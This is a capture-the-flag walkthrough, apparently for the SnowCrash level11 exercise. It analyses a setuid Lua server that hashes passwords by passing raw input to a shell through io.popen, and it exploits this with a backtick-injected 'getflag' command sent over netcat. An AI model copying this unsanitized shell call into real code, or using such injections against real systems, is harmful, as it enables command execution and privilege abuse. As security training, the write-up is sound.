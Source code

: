 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

What is lua ? 
A lightweight, fast programming language often used for scripting and embedding into applications. Lua is valued for its simplicity and flexibility and is commonly used for : video game scripting, embedded applications and interfaces (wireshark, nginx) and others. 


Okay let's have a look at the file 

```bash 
$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

This program implements a server which listens to connexions on port 5151 of the local address 127.0.0.1. 
He receives a password, hashes it and check if it corresponds to the expected hash.

```bash 
$ nc localhost 5151
Password: 
```

As expected the server waits for a password. 
Like in previous exercices we are going to try to inject the getflag command. After a few tries we found the correct syntax : 
```bash
$ nc localhost 5151
Password: `getflag` > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```



